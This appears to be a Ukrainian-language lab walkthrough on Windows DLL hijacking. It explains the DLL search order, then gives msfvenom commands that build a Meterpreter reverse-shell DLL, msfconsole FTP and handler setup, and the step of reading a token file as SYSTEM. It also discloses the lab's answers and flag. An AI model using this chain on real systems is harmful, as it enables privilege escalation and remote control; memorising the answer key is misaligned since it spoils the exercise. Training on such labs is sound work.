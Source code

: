 # DLL Hijacking  

Що таке DLL  
Бібліотека динамічних посилань (DLL) є основним компонентом операційної системи Windows. Вони часто пишуться як бібліотека для зберігання коду або функцій, які можуть використовуватися кількома програмами. Якщо зловмисник може контролювати, яку DLL завантажує програма, то зловмисник може вставити шкідливу DLL в процес завантаження DLL. Цей процес відомий як порядок пошуку DLL.  

Порядок пошуку DLL   
Коли програма виконується часто чи ні, для її запуску потрібен набір залежностей. Це DLL. Якщо програмі потрібно використовувати частину функціональності, що міститься в DLL, їй спочатку потрібно буде завантажити цю DLL. Перед завантаженням DLL операційна система знайде необхідні DLL, шукаючи набір каталогів у певному порядку. Якщо явний шлях не визначено, Windows використовуватиме такий порядок пошуку, щоб знайти DLL в системі:

    1. Каталог, з якого завантажувалася програма.
    2. Поточний каталог.
    3. Системний каталог. | C:\Windows\System32
    4. 16-розрядний системний каталог | C:\Windows\System
    5. Каталог Windows | C:\Windows
    6. Каталоги, перераховані у змінній середовища PATH.

DLL Hijacking  
Якщо DLL відсутня в системі, а зловмисник має доступ на запис до будь-якої теки в наведеному вище порядку пошуку, він може перемістити DLL в теку з іменем відсутньої DLL. Потім це буде завантажено програмою, яка дозволить виконувати код у контексті користувача, який запускає програму (що може бути в контексті СИСТЕМИ). Крім того, якщо DLL дійсно існує в системі, але знаходиться в теці, яка є низькою в порядку пошуку (тобто в каталозі в PATH), і є тека, до якої зловмисник може записати далі в порядку пошуку, тоді замість нього буде завантажено DLL зловмисника.

У цій лабораторії  
У цій лабораторній роботі розробник інсталював спеціальну службу на машині Windows під назвою «Служба налагодження розробника», яка працює як СИСТЕМА і налаштована на запуск під час запуску. Ця служба шукає відсутню DLL під назвою «Debug.dll». Ваше завдання полягає в тому, щоб створити шкідливе DLL-навантаження за допомогою msfvenom, знайти каталог, з якого служба намагається викликати відсутню DLL, захопити процес порядку пошуку, щоб підвищити привілеї та прочитати токен.

Завдання на цю лабораторну:
    1. Знайдіть каталог із доступом до запису, який шукається, коли Windows намагається знайти DLL
    2. Використовуючи msfvenom, створіть корисне навантаження DLL, яке можна додати до каталогу
    3. Отримайте доступ до СИСТЕМИ та прочитайте, що міститься у файлі C:/token.txt

Перше запитання:
Який каталог можна використовувати для захоплення відсутньої DLL?
    - javapath

Для початку ми відкриваємо термінал PowerShell, для того, щоб дізнатись, чи є у нас доступ для запису до вищевказаних директорій. Перевіряємо їх доступність за допомогою наступної команди: (Get-Acl $Path).AccessToString. Тепер коли ми визначили директорію, нам залишається лише вписати відповідь.

Друге запитання:
Який маркер всередині C:\token.txt?
    - g00d3ff0rth3r3saflag

MSFVenom – безплатний інструмент для створення корисного навантаження (шкідливого файлу). Це, як кажуть, двоюрідний брат Metasploit. З його допомогою ви можете створювати різні корисні навантаження, шелл-код та зворотний шелл.

Reverse TCP (зворотне підключення, зворотний шелл, пейлоад) - схема взаємодії з цільовим комп'ютером. Говорячи простою мовою. Ми створюємо шкідливий файл (корисне навантаження), після запуску якого цільовий комп'ютер намагатиметься підключитися до нашого комп'ютера. Це називається «бекконнект» або в нашому випадку зворотний шелл, тому що «бекконнект» - це поняття розтяжне.

Metasploit – це платформа для тестування на проникнення, з якою ви можете знаходити, експлуатувати та підтверджувати вразливість.

Meterpreter — розширена функціональна начинка (Payload), яка може бути динамічно розширена під час виконання. У нормальних умовах це означає, що це забезпечує Вас основною оболонкою і дозволяє Вам додавати нові особливості до неї в міру необхідності.

FTP (англ. File Transfer Protocol, укр. протокол передавання файлів) — стандартний мережевий протокол прикладного рівня призначений для пересилання файлів між клієнтом та сервером в комп'ютерній мережі.

Для початку ми створюємо payload, це робиться наступним чином: msfvenom -p windows/meterpreter/reverse_tcp lhost=localhost lport=5555 -f exe > /path/Debug.dll
 - -p: тип корисного навантаження;
 - lhost: ip адреса поточної машини; 
 - lport: локальний порт поточної машини;
 - -f: для якого типу потрібно створювати корисне навантаження;

Після чого наша задача полягає в передачі файлу на іншу віртуальну машину. Це можна зробити декількома варіантами, але в нашому випадку я знайшов один для себе, а саме через відкриття локального FTP сервера через msfconsole.  

Для початку розгорнемо сервер FTP наступними діями:
```
    msfconsole
    msf > use auxiliary/server/ftp
    msf > set FTPROOT /tmp/ftproot
    msf > set SRVHOST localhost
    msf > set SRVPORT [1022 > 65535]
    msf > exploit
```

Тепер ми переходимо на віндовс машину, після чого переходимо в адресну стрічку браузера, де ми вписуємо:
```
    ftp://srvhost:srvport
```
І просто завантажуємо інтересуючий нас файл, після чого переміщуємо у вище визначену директорію. Далі ми завершаємо сесію msfconsole й відкриваємо нову з використанням експлойта handler:
```
    msfconsole
    msf > use exploit/multi/handler
    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
    msf exploit(handler) > set lhost localhost
    msf exploit(handler) > set lport localport
    msf exploit(handler) > exploit
```

При правильному виконанні  всіх дій, наступним нашим кроком буде відкриття сервісних служб у віндовс, для того, щоб запустити:  "Служба налагодження розробника", яка підвантажити нашу створену корисне навантаження. Після чого відкриється meterpreter сесія на машині Kali, де ми зможемо прочитати токен за допомогою команди:
```
    more C:\token.txt
```

Третє запитання:
Який 4-й крок у порядку пошуку DLL?
    - 16-розрядний системний каталог

Четверте запитання:
Правда чи неправда. Якщо DLL існує в системі, зловмисник все ще може використати порядок пошуку за допомогою шкідливої ​​DLL?
    - Правда, адже можна використати каталог вищого порядку

П'яте запитання:
Що з наведеного нижче найкраще описує викрадення DLL?
    - Використання недоліків у процесі заміщення файлу в директорії вищого порядку для пошуку DLL